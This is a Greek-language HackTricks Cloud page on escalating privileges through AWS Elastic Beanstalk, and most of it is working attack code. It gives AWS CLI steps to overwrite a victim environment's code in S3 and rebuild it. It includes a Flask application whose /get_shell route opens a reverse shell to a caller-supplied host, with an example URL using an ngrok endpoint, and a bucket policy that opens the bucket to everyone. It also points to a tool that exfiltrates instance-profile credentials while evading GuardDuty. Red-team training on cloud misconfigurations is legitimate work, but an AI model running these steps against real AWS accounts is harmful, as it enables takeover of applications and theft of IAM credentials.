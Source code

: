 # AWS - Elastic Beanstalk Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Elastic Beanstalk

Περισσότερες **πληροφορίες σχετικά με το Elastic Beanstalk** στο:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Για να εκτελέσετε ευαίσθητες ενέργειες στο Beanstalk θα χρειαστεί να έχετε **πολλές ευαίσθητες άδειες σε πολλές διαφορετικές υπηρεσίες**. Μπορείτε να ελέγξετε για παράδειγμα τις άδειες που δίνονται σε **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`**
{% endhint %}

### `elasticbeanstalk:RebuildEnvironment`, άδειες εγγραφής S3 & πολλές άλλες

Με **άδειες εγγραφής πάνω στον S3 κάδο** που περιέχει τον **κώδικα** του περιβάλλοντος και άδειες για **ανακατασκευή** της εφαρμογής (απαιτείται `elasticbeanstalk:RebuildEnvironment` και μερικές ακόμη σχετικές με `S3`, `EC2` και `Cloudformation`), μπορείτε να **τροποποιήσετε** τον **κώδικα**, να **ανακατασκευάσετε** την εφαρμογή και την επόμενη φορά που θα αποκτήσετε πρόσβαση στην εφαρμογή θα **εκτελεί τον νέο σας κώδικα**, επιτρέποντας στον επιτιθέμενο να συμβιβάσει την εφαρμογή και τα διαπιστευτήρια ρόλου IAM της. 

{% code overflow="wrap" %}
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
{% endcode %}

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`, και άλλα...

Οι αναφερόμενες καθώς και αρκετές **`S3`**, **`EC2`, `cloudformation`**, **`autoscaling`** και **`elasticloadbalancing`** άδειες είναι απαραίτητες για να δημιουργήσετε ένα βασικό σενάριο Elastic Beanstalk από το μηδέν.

* Δημιουργία μιας εφαρμογής AWS Elastic Beanstalk:
```bash
aws elasticbeanstalk create-application --application-name MyApp
```
* Δημιουργήστε ένα περιβάλλον AWS Elastic Beanstalk ([**υποστηριζόμενες πλατφόρμες**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}

Αν ένα περιβάλλον έχει ήδη δημιουργηθεί και **δεν θέλετε να δημιουργήσετε ένα νέο**, μπορείτε απλά να **ενημερώσετε** το υπάρχον.

* Πακετάρετε τον κωδικό της εφαρμογής σας και τις εξαρτήσεις σε ένα αρχείο ZIP:
```python
zip -r MyApp.zip .
```
* Ανεβάστε το αρχείο ZIP σε ένα S3 bucket:
```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```
* Δημιουργήστε μια έκδοση εφαρμογής AWS Elastic Beanstalk:

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
{% endcode %}

* Αναπτύξτε την έκδοση της εφαρμογής στο περιβάλλον AWS Elastic Beanstalk σας:

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

Πρώτα απ' όλα, πρέπει να δημιουργήσετε ένα **νόμιμο περιβάλλον Beanstalk** με τον **κώδικα** που θα θέλατε να εκτελέσετε στον **θύμα** ακολουθώντας τα **προηγούμενα βήματα**. Πιθανώς ένα απλό **zip** που να περιέχει αυτά τα **2 αρχεία**:

{% tabs %}
{% tab title="application.py" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
return jsonify('404')

@application.route("/")
def index():
return jsonify('Welcome!')


@application.route("/get_shell")
def search():
host=request.args.get('host')
port=request.args.get('port')
if host and port:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,int(port)))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
return jsonify('done')

if __name__=="__main__":
application.run()
```
{% endtab %}

{% tab title="requirements.txt" %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

Μόλις έχετε **το δικό σας περιβάλλον Beanstalk να τρέχει** το rev shell σας, είναι καιρός να **μεταφέρετε** αυτό στο **περιβάλλον του θύματος**. Για να το κάνετε αυτό, πρέπει να **ενημερώσετε την Πολιτική Κάδου** του S3 κάδου σας Beanstalk ώστε ο **θύμα να μπορεί να έχει πρόσβαση σε αυτό** (Σημειώστε ότι αυτό θα **ανοίξει** τον Κάδο σε **ΟΛΟΥΣ**):
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"s3:ListBucket",
"s3:ListBucketVersions",
"s3:GetObject",
"s3:GetObjectVersion",
"s3:*"
],
"Resource": [
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
]
},
{
"Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
"Effect": "Deny",
"Principal": {
"AWS": "*"
},
"Action": "s3:DeleteBucket",
"Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
}
]
}
```
{% code overflow="wrap" %}
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528

Alternatively, [MaliciousBeanstalk](https://github.com/fr4nk3nst1ner/MaliciousBeanstalk) can be used to deploy a Beanstalk application that takes advantage of overly permissive Instance Profiles. Deploying this application will execute a binary (e.g., [Mythic](https://github.com/its-a-feature/Mythic) payload) and/or exfiltrate the instance profile security credentials (use with caution, GuardDuty alerts when instance profile credentials are used outside the ec2 instance).

The developer has intentions to establish a reverse shell using Netcat or Socat with next steps to keep exploitation contained to the ec2 instance to avoid detections.
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
